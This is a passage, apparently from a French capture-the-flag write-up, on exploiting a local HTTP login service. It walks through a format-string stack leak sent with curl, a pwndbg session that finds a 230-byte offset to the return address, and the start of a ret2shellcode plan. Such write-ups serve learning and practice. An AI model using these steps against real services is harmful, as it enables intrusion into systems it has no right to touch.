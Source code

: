 ```c
  if (sVar1 == 0xd) {
    for (local_c = 0; local_c < 0xd; local_c = local_c + 1) {
      if (((int)local_e8[local_c] ^ local_128[local_c]) != (int)local_18[local_c]) {
        return 0xffffffff;
      }
    }
    uVar2 = 0;
  }
  else {
    uVar2 = 0xffffffff;
  }
  return uVar2;
}
```
Cela nous permet de réaliser un exploit de type `ret2shellcode`. Cependant, il y a un problème : l'ASLR est activé, donc nous avons besoin d'un leak.
En regardant la fonction `post_response`, on voit que si les identifiants sont incorrects, elle effectue un `snprintf` de notre `username` dans la page qui nous est renvoyée. Comme il n'y a pas d'arguments de format, nous avons une vulnérabilité de type `format string` qui nous permet de leak une adresse de la stack :
```bash
curl -X POST -d "user=%25p&password=admin" http://localhost:9999/login
<!DOCTYPE html><html lang="fr"><body><div><h1>Erreur de connexion pour <span style="color:red;">0x71473c01a5a4</span></h1><p>Invalide login/password</p></div></body></html>
```

Nous allons donc dans un premier temps déterminer l'offset pour contrôler `rip` : 
```bash
pwndbg> b *verify_account+335
Breakpoint 1 at 0x1995
pwndbg> run
...
POST /login ok Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj
...
RSP  0x7ffff75ff508 ◂— push 0x38684137 /* 0x4138684137684136; '6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj' */
 RIP  0x555555555995 (verify_account+335) ◂— ret 
────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────────────────
 ► 0x555555555995 <verify_account+335>    ret                                <0x4138684137684136>
```
Nous voyons qu'avec 230 octets, nous contrôlons le `rip`.
Ensuite, nous déterminons où sauter. Comme il y a beaucoup de place dans `local_e8` (username+password), nous allons sauter dessus. Nous devons juste trouver une adresse dans la stack qui nous permet de calculer l'adresse de `local_e8`. Après quelques recherches, nous voyons qu'avec `%94$p` comme `username`, nous obtenons une adresse dans la stack qui est toujours à `+1008` octets de `local_e8`. 
Notre exploit consiste donc en :

Première requête :
- Fuite de la stack avec `user=%94$p&password=a`
